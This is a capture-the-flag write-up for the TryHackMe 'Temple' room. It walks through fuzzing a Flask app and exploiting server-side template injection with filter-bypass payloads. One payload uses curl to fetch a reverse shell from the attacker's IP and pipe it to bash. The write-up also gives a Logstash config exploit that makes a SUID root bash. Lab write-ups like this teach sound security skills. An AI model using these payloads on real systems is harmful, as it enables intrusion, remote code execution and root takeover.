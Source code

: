 **Temple - Hard**

**Category: Security, Web, Hacking, Flask**

**URL: https://tryhackme.com/room/temple**



**Thoughts about the challenge before starting the challenge.**

When looking at the task, based on the name and the categories, it is most likely a Server-Side Template Injection (SSTI) vulnerability that will be exploited.
Python Werkzeug Flask is well known in CTFs to contain SSTI vulnerability, and the name of the challenge also hints at the T in the SSTI.
The difficulty of the challenge could be based on how hard it is to find the vulnerability, if it is hard to exploit, bypassing of filters, and as well the difficulty of the privilege escalation.


**Process for obtaining Flag1.txt:**

**Open ports and services:**
````
7 echo: this service only echoes back what is being sent to it.
21 ftp - 22 ssh - 23 telnet: not leaking any sensitive data and would be time-consuming to brute force.
80 Apache HTTP: Not more than the default Apache site.
61337 Werkzeug HTTP: Based on the thoughts of the challenge, this is the service that most likely would contain the SSTI vulnerability and the service being tested at the highest priority.
````

When accessing the website ````http://IP:61337````, we are being redirected to ````/login````.
This path only contains a login form and has no functionality to access other paths.
The source code does not leak any other paths.


The login form is tested with simple SQLi and more advanced, as well as the automatization tool sqlmap without any signs of SQLi vulnerability.


Next is file and directory discovery through fuzzing.
Because this is a Flask web application, the fuzzing would be done without extensions.
Initially, I would always use a short wordlist with common names.
In Kali Linux, a standard wordlist is found at ````/usr/shar/wordlist/dirb/common.txt````.
This gave some results, but not what was needed. Therefore it was essential to test with other wordlists.
The other wordlists are the ````SecLists/Discovery/Web-Content/directory-list-lowercase-2.3-(small|medium|big).txt````.
As for this, I start with the smallest wordlist first and then escalate to the bigger wordlists if needed.
This was a time-consuming task at first, and it tested the patience of the enumeration process.
````The biggest tip for this process is to use FFUF and set the threads flag at a high level.````
I found that both ````100 and 200 threads gave the same result````. This gave me the result after 3 minutes and 40 seconds.
If running default at the configuration of ````40 threads````, this would take a lot more time. If the service is slow, it could take over an hour.
At my first attempt at fuzzing for paths, the last path was not found after one and a half hours of fuzzing.
This resulted from a slow service and a low amount of threads. 


**common.txt result:**
````
302 - /account                                              
403 - /admin                                                
302 - /application                                           
302 - /external                                             
302 - /home                                                  
302 - /internal                                            
200 - /login                                               
302 - /logout                                               
200 - /robots.txt                                            
403 - /temporary
403 - /temporary/dev
````

**SecLists/Discovery/Web-Content/directory-list-lowercase-2.3-medium.txt:**
````
200 - /temporary/dev/newacc
````

The endpoint found is an endpoint where we could create an account.
This only requires an ````email, username, and password```` where the username must be longer than ````5```` and the password longer than ````8````.
After creating the account, we could login to the user portal, which gives access to the paths with the ````302 code````.


Under the path ````/account````, the representative account username is displayed.
This is important to test further since it could display an SSTI vulnerability.
By creating a new account with ````{{5*5}}```` as username, the username displayed when logged in should display ````25```` if it is vulnerable.
If not, it could be filtered to bypass, or the correct field still needs to be found.


After creating an account with username ````{{5*5}}````, the account path does show ````25````, which means it has an SSTI vulnerability, as expected from the name and category.
This could be exploited with os commands and reverse shell.


To get a foothold, Hacktricks is a fantastic tool with many copy-paste codes that could be pasted into the username field with some modifications to make it do what we want.
The cheat sheet for SSTI at hacktrick is found at: https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection .


All the snippets from this site were tested, but all were rejected by the server as a hacking attempt.
This means we have to find other ways to bypass different filters which could be used.
For this, I found this site through Google: https://hackmd.io/@Chivato/HyWsJ31dI#RCE-bypassing-as-much-as-I-possibly-can


**The one used was this**:
````
{{request|attr('application')|attr('\x5f\x5fglobals\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fbuiltins\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fimport\x5f\x5f')('os')|attr('popen')('id')|attr('read')()}}
````

This is still rejected because a hacking attempt was made, but based on the website, this should bypass most of the filters.
I tested the same but changed the ````'```` to, ````"```` and this was the last bypass needed.
````
{{request|attr("application")|attr("\x5f\x5fglobals\x5f\x5f")|attr("\x5f\x5fgetitem\x5f\x5f")("\x5f\x5fbuiltins\x5f\x5f")|attr("\x5f\x5fgetitem\x5f\x5f")("\x5f\x5fimport\x5f\x5f")("os")|attr("popen")("whoami")|attr("read")()}}
````

This gave the result in the username field of the account endpoint, ````bill````, which means that the ````bill```` user on the server is the user who owns the running service.
This would also make the reverse shell identity ````bill```` after successful exploitation.
For the process of gaining foothold, it is essential to start a listener.
When testing basic reverse shells, it was either reported as a hacking attempt or not giving a result to the listener.
Then I tested with a simple curl command to my IP and the listening port, which gave a hit.
This means we could create a simple bash reverse shell in a file and then open a Python server, making the curl command possible to access the file.
Therefore, changing ````whoami```` from the SSTI above to ````curl http://IP:port/reverseshellfile|bash```` would collect and execute the code.
````
{{request|attr("application")|attr("\x5f\x5fglobals\x5f\x5f")|attr("\x5f\x5fgetitem\x5f\x5f")("\x5f\x5fbuiltins\x5f\x5f")|attr("\x5f\x5fgetitem\x5f\x5f")("\x5f\x5fimport\x5f\x5f")("os")|attr("popen")("curl http://10.9.80.181/sstibypassshell|bash")|attr("read")()}}
````

After inserting this as the username and creating the account, a reverse shell is spawned when accessing the ````/account```` path.
This gave foothold as ````bill````, and the first flag was found under ````/home/bill/flagg1.txt````.


**Useful commands for a better shell:**
````
1. on the target: python3 -c 'import pty;pty.spawn("/bin/bash")'
2. on the target: export TERM=xterm
3. on the target: Ctrl + Z
4. in the same window as the target is being backgrounded: stty raw -echo; fg
5. on the target: stty rows 38 columns 116
````

This would make it possible to arrow up for earlier commands, clear to clear the terminal.
The terminal is not being exited with ````CTRL + C````, making it possible to run other scripts on the target and use ````CTRL + C```` to exit that script and not the terminal reverse shell.


**Process for obtaining Flag2.txt:**

When enumerating for escalating possibilities, I always check manually at first before using auto scripts like Linpeas.
This is because some escalations could often be found faster by one or multiple commands than by a script running multiple processes to gather critical information.
For this, commands like ````netstat -tvlp```` to look for undiscovered open ports or locally open ports,
````find / -perm -4000 2>/dev/null```` to find SUID binaries which could be abused,
check directories like ````/home```` for which users we could privesc to, ````/opt /tmp```` for abnormalities, the flask application found at ````/home/bill/webapp```` as well as running processes.
For running processes, I like to use ````pspy64```` since it would check live processes and spawning processes, which could give a cronjob run by root that could be used.
Using ````ps```` for running processes could miss cronjobs being executed.


When using the ````pspy64````, a binary: ````/usr/share/logstash/jdk/bin/java```` is being executed by root.
Searching for logstash at hacktricks introduces us to a privilege escalation possibility.
https://book.hacktricks.xyz/linux-hardening/privilege-escalation/logstash


The first indicator for this vulnerability is if this file ````/etc/logstash/pipelines.yml contains 'path.config: "/etc/logstash/conf.d/*.conf"'````.
The * means it would use all the .conf files inside the path /etc/logstash/conf.d/. 


````pipeline.yml```` on the target, which indicated what was explained above from hacktricks.
````
- pipeline.id: main
  path.config: "/etc/logstash/conf.d/*.conf"
````

The following important part of this exploit is to have write permission to the directory conf.d or a file inside.
In this case, we do not have write permission to the directory, but we have write permission to the only conf file inside the directory: ````logstash-sample.conf````.
````
dr-xr-xr-x   2 root root  4096 Oct  3  2021 conf.d
-r--r--rw- 1 root root 101 Oct  4  2021 logstash-sample.conf
````

The last thing we need is a way to reload the service.
The file ````/etc/logstash/logstash.yml```` contains information about the config reloading automatically every third second.
This means it is possible to exploit the vulnerability.


````logstash.yml```` on the target, which indicates the reloading process.
````
config.reload.automatic: true
config.reload.interval: 3s
````

By writing this code into the config file, we would copy the ````/bin/bash```` binary to a replica and add SUID privileges to the binary,
which means we could run this binary with the ````-p```` flag and have root privileges.
This code is the one found at https://book.hacktricks.xyz/linux-hardening/privilege-escalation/logstash , but with another command.


**privesc exploit:**
````
input {
  exec {  
    command => "cp /bin/bash /tmp/bash; chmod +s /tmp/bash"    
    interval => 120    
  }
}

output {
  file { 
    path => "/tmp/output.log"   
    codec => rubydebug   
  }  
}
````

The last flag is then found at ````/root/flag2.txt````.


**More information:**

We got access to the bill user based on the SSTI, but there were also found 2 other users, frankie and princess.
After the challenge was completed, there was found a possibility to crack the princess password based on the hash found in ````/etc/shadow````.
This was only tested with the Rockyou wordlist. This indicates that the server allows users to have bad passwords.

It is also possible to obtain access to the MySQL service.
Credentials for this service are leaked in the ````/home/bill/webapp/app.py````.
